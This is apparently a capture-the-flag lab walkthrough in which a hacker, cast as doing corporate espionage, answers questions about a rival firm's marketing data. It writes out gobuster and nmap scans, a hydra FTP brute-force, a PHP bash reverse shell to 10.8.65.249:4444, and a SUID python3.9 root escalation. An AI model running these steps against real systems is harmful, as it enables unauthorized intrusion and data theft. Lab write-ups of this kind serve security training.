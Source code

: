 # 02 - Revalry (Lab)

There is a striking competition between the software giants VertexWave International and Orbitronix Systems, as both continuously struggle for market dominance. Recently, VertexWave International has assigned you, a skilled hacker, a secret mission suitable for this critical task.

Your mission is to access sensitive data related to the sales and marketing strategies of Orbitronix Systems. This information is of vital importance because Orbitronix Systems has established a partnership with the famous Create Edge Advertising Agency, known for its innovative and highly effective marketing campaigns, in order to surpass VertexWave. 

Questions Walkthrough:
1. How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?


![](../Assets/Pasted%20image%2020251028142452.png)

Answer: 3500

Question 2: What is the advertising budget of Orbitronix Systems in dollars?


To begin, we need to gather information about the target lets perform a gobuster scan.

```
gobuster dir -u "http://172.20.25.114" -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,txt,html,bak,old
```


![](../Assets/Pasted%20image%2020251028143058.png)

We found a hidden directory `/ftp` lets explore it.

Here we found a file named `clients.csv` lets read it.
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
...
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
...
```
Answer: 225000

Question 3: Who is the target audience of the Orbitronix Systems advertising campaign?

Answer: Young Adults

Quesiton 4: What is the name of the secret marketing tool developed by Create Edge?

In order to access to this info we need to gain access to the server. Lets perform an nmap scan to identify open ports and services.

```
nmap -sSVC 172.20.58.90
```

![](../Assets/Pasted%20image%2020251028143206.png)

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: CREATEEDGE
Service Info: OS: Unix
```
We found an FTP service on port 21 and a web server on port 80. Lets check the web server first.
Connecting anonymously to the FTP server didn't work so lets try a hydra attack on the default user `ftpuser`.

```
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://172.20.58.90
```

![](../Assets/Pasted%20image%2020251028143502.png)

Bingo we found that the password is `password` lets enumerate the ftp server.

```
ftp 172.20.58.90
```

![](../Assets/Pasted%20image%2020251028143555.png)

We just found the already known `clients.csv` lets try to upload a php reverse shell and access it via the website.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.65.249/4444 0>&1'");
?>
```
Then we upload the shell with `put shell.php`
Create a netcat listener on our machine.
```
nc -lvnp 4444
```
And visit your browser on `http://172.20.58.90/ftp/shell.php`

Bingo now we have a reverse shell as www-data lets try to escalate privileges

Lets look for files with SETUID bit set.
```
find / -perm -4000 2>/dev/null
```

![](../Assets/Pasted%20image%2020251028144201.png)

Great we found that /usr/bin/python3.9 has the SUID bit set. Lets exploit it to get a root shell.
```
/usr/bin/python3.9 -c "import os;os.setuid(0);os.system('bash')"
```

![](../Assets/Pasted%20image%2020251028144408.png)

Great now lets enumerate

We found an interesting file in `/archive/meetings` lets read it.
```
cat /archive/meetings/orbitronix_system-2023-11-20.txt
```
Bingo here we found the name of the secret marketing tool.


![](Assets/Pasted%20image%2020251028144639.png)


Answer: InsightNexus AI

